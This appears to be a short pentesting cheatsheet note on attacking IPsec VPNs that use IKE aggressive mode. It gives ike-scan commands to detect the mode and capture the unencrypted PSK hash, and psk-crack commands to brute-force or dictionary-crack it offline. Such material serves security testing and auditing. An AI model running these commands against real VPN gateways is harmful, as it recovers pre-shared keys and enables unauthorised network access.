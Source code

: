 # Exploiting IKE Aggressive Mode

**date**:: 2022-07-10

In IKE aggressive mode the authentication hash based on a preshared key (PSK) is transmitted as response to the initial packet of a vpn client that wants to establish an IPSec Tunnel (`Hash_R`). This hash is not encrypted (in main mode the hash *is* encrypted)

The `ike-scan` tool can be used to test if an IPSEC VPN server is using IKE in aggressive mode:

```bash
sudo ike-scan -A $IP_ADDRESS
```

If aggressive mode is in use, then `ike-scan` can be used to save the initial exchange for offline cracking:

```bash
sudo ike-scan -A $IP_ADDRESS --id=$ID -P$KEY_FILE
```

`psk-crack` can then be used to (attempt) to crack the resulting `$KEY_FILE`.

```bash
# Attempt to brute-force all keys up to $KEY_LENGTH using
# characters from $CHARSET (by default $CHARSET is numbers and
# lowercase ASCII characters).
#
psk-crack --charset="$CHARSET" -b $KEY_LENGTH $KEY_FILE

# Attempt to crack the PSK using a dictionary.
#
psk-crack -d $WORDLIST_FILE $KEY_FILE
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
